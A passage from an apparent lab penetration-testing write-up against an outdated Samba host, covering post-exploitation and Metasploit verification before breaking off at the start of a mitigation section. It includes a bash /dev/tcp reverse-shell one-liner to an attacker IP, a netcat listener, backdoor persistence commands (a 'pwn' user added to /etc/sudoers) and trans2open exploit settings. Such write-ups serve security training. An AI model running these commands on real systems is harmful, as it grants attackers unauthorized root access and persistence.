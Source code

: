 **Result:** exploit succeeded and returned a root shell:

```
# id
uid=0(root) gid=0(root) groups=99(nobody)
```

---

## 6. Post-exploitation (reverse shell & persistence)

### Reverse shell (listener on Kali)
On the attacker machine:

```bash
nc -nlvp 4444
```

From the compromised host (simple reverse shell one-liner used in the lab):

```bash
bash -i >& /dev/tcp/192.168.1.105/4444 0>&1
```

`whoami` returned `root`.

### Minimal persistence example (lab only)
(Only in a lab environment — do not do this on systems without permission.)

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
useradd pwn -p pwn
echo "pwn ALL=(ALL) ALL" >> /etc/sudoers
```

---

## 7. Metasploit verification (optional)
To confirm the vulnerability, Metasploit's `trans2open` module can be used:

```text
msf6 > use exploit/linux/samba/trans2open
msf6 exploit(...)> set RHOSTS 192.168.1.106
msf6 exploit(...)> set LHOST 192.168.1.105
msf6 exploit(...)> set payload linux/x86/shell_reverse_tcp
msf6 exploit(...)> exploit
```

Metasploit opened multiple **root** sessions, validating the manual exploit result.

---

## 8. Mitigation & Lessons Learned

### Root causes
- Outdated services (Samba 2.x, Apache 1.3.x) with publicly known remote exploits.

